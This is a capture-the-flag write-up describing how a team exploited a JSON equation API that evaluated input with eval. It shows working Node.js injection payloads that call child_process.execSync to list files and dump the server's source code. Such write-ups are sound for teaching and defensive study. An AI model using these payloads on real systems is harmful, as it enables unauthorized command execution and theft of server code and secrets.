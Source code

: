 # Let's Dance

### [~$ cd ..](../)

For this challenge, we were asked to find and exploit a vulnerability in a simple web API.

The API had only one route accepting only `POST` requests. The requests body were meant to be simple equations that were going to be solved. The requests and responses were `json` formatted.

The requests body looked like this:

```json
{
  "equation": "1+1"
}
```
And the responses:
```json
{
  "result": 2
}
```

We first tried some very crude buffer overflows and stack overflows by sending massive requests and equations with a lot of parenthesis. None of that worked.

Then we thought the backend may use a function like `eval(expr)` to compute the result, so we gave it a try. Sending :
```json
{
  "equation": "eval(1)"
}
```
gave us the following response :
```json
{
  "result": 1
}
```

Here we had found the vulnerability but not yet the language used, so we just sent another request :
```json
{
  "equation": "eval(1);"
}
```
This also gave us a successful response :
```json
{
  "result": 1
}
```
From here we thought about either a `php` or `js` server.
We placed our bet on `js` and tried the following request :
```json
{
  "equation": "var dummy = 1;"
}
```
This also gave us a successful response :
```json
{
  "result": 1
}
```
From here we started building a payload allowing us to execute commands on the server :

```json
{
    "equation": "const exec = require('child_process').execSync;var out = Buffer.from(exec('ls')).toString('hex');out;"
}
```

Which gave us `index.js` in hexadecimal. Then we made a last request :

```json
{
    "equation": "const exec = require('child_process').execSync;var out = Buffer.from(exec('cat index.js')).toString('hex');out;"
}
```

This gave us all the code of the server which contained the flag.

DONE
